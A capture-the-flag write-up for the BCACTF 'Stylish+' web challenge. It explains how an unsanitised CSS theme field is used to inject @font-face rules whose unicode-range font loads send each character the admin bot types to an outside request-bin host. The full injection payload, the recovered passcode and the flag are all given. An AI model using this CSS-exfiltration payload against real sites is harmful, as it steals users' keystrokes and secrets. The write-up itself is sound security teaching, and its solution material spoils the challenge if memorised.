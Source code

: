 ```yaml
---
title: Stylish+
date: 2022-06-06 10:00:00 +0200
categories: [web]
tags: [bcactf3]
toc: false
---
```


## Overview
Stylish+ is a **Fastify** web application that allows you to create CSS themes and present them to a bot. You also get the source code of the application to review it and identify any security vulnerabilities.

![](/assets/img/stylish_landing_page.png#center)
## Vulnerability
Looking at `package.json` file for deprecated libraries with known security vulnerabilities and also other config files for misconfigurations - has led to nothing.

After toying with the website and clicking every button - a POST request with the following payload is sent:
``` json
{
	"bodyBG":"white",
	"bodyFG":"black",
	"accentBG":"black",
	"accentFG":"white"
}
```
Let's see how the data is processed in `server/src/index.ts`.
``` javascript

app.post<{ Body: Static<typeof Theme> }>("/api/report", async (request, reply) => {
    // Generate an ID
    const id = cuid();

    // Store the theme
    themes.set(id, request.body);

    let context: BrowserContext | undefined;
    let page: Page | undefined;

    try {
        context = await (await browser).createIncognitoBrowserContext();
        page = await context.newPage();
        await page.setCacheEnabled(false);
        await page.goto(`http://localhost:3000/?theme=${id}`, { waitUntil: "load", timeout: 3000 });
        await page.click("#open-admin-panel");

        // Wait a bit to give everything some time to load
        await new Promise(resolve => setTimeout(resolve, 1000));

        const passcode = thePasscode;
        for (let i = 0; i < passcode.length; i++) {
            const char = passcode.charAt(i);
            const id = cuid();
            await page.evaluate(`
            document.querySelectorAll("#keypad > button").forEach(button => {
                if (button.innerText === "${char}") {
                    button.id = "${id}";
                }
            })
            `);
            await page.click(`#${id}`);
            await new Promise(resolve => setTimeout(resolve, 300));
        }

        const submitID = cuid();
        await page.evaluate(`
        document.querySelectorAll("#keypad > button").forEach(button => {
            if (button.innerText === "Submit") {
                button.id = "${submitID}";
            }
        })
        `);
        await page.click(`#${submitID}`);
        await new Promise(resolve => setTimeout(resolve, 3000));

        reply.send("sure");
    } catch (e) {
        console.error(e);
        throw e;
    } finally {
        // Clean up
        themes.delete(id);
        await page?.close();
        await context?.close();
    }
});
```
The body is saved inside a themes map for a quick visit from the bot and then deleted. However, the bot not only visits the page, but also enters its secret passcode - we should remember that.
In `public/src/main.ts` we can see that the theme is written inside a style tag.
``` javascript
function setTheme({bodyBG, bodyFG, accentBG, accentFG}: Theme) {
    theme = {bodyBG, bodyFG, accentBG, accentFG};
    document.getElementById("style")!.innerText = `
        :root {
            --body-bg: ${bodyBG};
            --body-fg: ${bodyFG};
            --accent-bg: ${accentBG};
            --accent-fg: ${accentFG};
        }
    `;
}
```
So we have controll over the html `<style>` tag. Great - but how do we abuse that? Since this is a CTF challenge we firest have to see where the flag is hidden in the first place.
In `server/src/index.ts` there is another endpoint which looks as follows:
``` javascript
app.post<{ Body: Static<typeof FlagRequest> }>("/api/flag", {
    schema: {
        body: FlagRequest,
    },
}, (request, reply) => {
    const { passcode } = request.body;
    if (passcode === (thePasscode ?? "")) {
        console.log("Flag get!");
        reply.send(flag ?? "yell at the problem author to fix this");
    } else {
        reply.status(403).send("no");
    }
});
```
Great, we have to figure out how to get our hands on the passcode - as we have already seen the bot that visits our theme enters the passcode. So how do we steal it?
It is pretty simple - thorugh the `:focused` selector we only have to load an image from our server and we should get with every click a part of the passcode, right?
This would be far too easy - so the author of the challenge randomized the order of the buttons containing letters and numbers.
``` javascript
const buttons = [
	"D", "E", "F",
	"A", "B", "C",
	"7", "8", "9",
	"4", "5", "6",
	"1", "2", "3",
	"Reset", "0", "Submit",
];
const indices = [...Array(buttons.length).keys()];

for (let i = 0; i < indices.length; i++) {
	const j = Math.floor(Math.random() * indices.length);
	const temp = indices[i];
	indices[i] = indices[j];
	indices[j] = temp;
}
--- snipped ---
css += `
	#keypad button:nth-child(${i + 1}) {
		order: ${indices[i]};
	}
`;
--- snipped ---
```
## Exploitation
After researching the topic and readig through [tons of drafts](https://drafts.csswg.org/selectors/). I thought I would have to give up because it didn't seem possible to create a selector for a button with a specific letter or number.
But wait - why reinvent the wheel when it already exists - the idea of a CSS keylogger is not new and has been around for over 10 years! So I changed my research on this topic and found tons of new input to try out - for example the [@font-face rule](https://developer.mozilla.org/en-US/docs/Web/CSS/@font-face).
This rule set has a unique property called `unicode-range` which allows us to load a remote font and use only a range of chracters from it - this means that if we create this rule set for each letter and number of the passcode, we can build our keylogger - how exciting ^^
``` css
@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=A), local(Impact); unicode-range: U+41; } // A
@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=B), local(Impact); unicode-range: U+42; } // B
@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=C), local(Impact); unicode-range: U+43; } // C
...
#keypad button:focus { font-family: x, 'Comic sans ms'; }
```
Our payload now looks like this:
``` json
{
    "bodyBG":"white",
    "bodyFG":"orange",
    "accentBG":"green",
    "accentFG":"blue;}@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=A), local(Impact); unicode-range: U+41; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=B), local(Impact); unicode-range: U+42; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=C), local(Impact); unicode-range: U+43; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=D), local(Impact); unicode-range: U+44; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=E), local(Impact); unicode-range: U+45; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=F), local(Impact); unicode-range: U+46; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=0), local(Impact); unicode-range: U+30; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=1), local(Impact); unicode-range: U+31; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=2), local(Impact); unicode-range: U+32; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=3), local(Impact); unicode-range: U+33; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=4), local(Impact); unicode-range: U+34; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=5), local(Impact); unicode-range: U+35; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=6), local(Impact); unicode-range: U+36; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=7), local(Impact); unicode-range: U+37; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=8), local(Impact); unicode-range: U+38; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=9), local(Impact); unicode-range: U+39; }#keypad button:focused { font-family: x, 'Comic sans ms';"
}
```
So let's just try it and hope for the best.
![](/assets/img/stylish_requestbin.png#center)

I had to repeat this process for a few times until I had the working passcode because the bot clicks on a button ever 300ms the resourcestokk sometimes longer to load but in the end I had the working passcode: 4D7EA2950FC8B613

Sending it to the flag endpoint reveals the flag.
> bcactf{insert_absolutely_bad_css_pun_here_1fAZUo7ZgiCqiQkBkwPW0A}

٩(◕‿◕｡)۶
